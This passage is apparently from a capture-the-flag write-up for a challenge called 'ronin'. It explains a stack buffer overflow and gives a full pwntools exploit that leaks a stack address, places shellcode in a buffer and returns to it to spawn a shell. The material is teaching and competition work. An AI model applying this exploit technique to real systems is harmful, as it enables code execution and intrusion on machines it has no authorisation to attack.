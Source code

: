 Now we can set 2 to `dir`, which calls `encounter`, which has a buffer overflow. We can return to the shellcode we placed in the buffer earlier, calculating the address using the offset.
```python
# the offset of the leaked stack address to the beginning of our shellcode
# which is in the earlier buffer
offset = 65
r.sendline(b'2')
r.sendline(b'A'*40 + p64(leak - offset))
```

The full exploit is the following:
```python
from pwn import *

exe = ELF("./ronin")
context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, '''
                set {int}'usleep@plt'=0xc3
                c
            ''')
    else:
        r = remote("pwn.chall.pwnoh.io", 13372)

    return r


def main():
    r = conn()

    shellcode = asm(shellcraft.amd64.linux.sh())
    log.info(f"{len(shellcode)=}")
    r.sendline(b'Chase after it.' + shellcode)

    r.recvuntil(b'Which way will you look? ')
    r.sendline(b'-4')
    leak = int.from_bytes(r.recvn(6, timeout=10), 'little')
    log.info(f"{leak=:02x}")

    # the offset of the leaked stack address to the beginning of our shellcode
    # which is in the earlier buffer
    offset = 65
    r.sendline(b'2')
    r.sendline(b'A'*40 + p64(leak - offset))

    r.interactive()


if __name__ == "__main__":
    main()
```
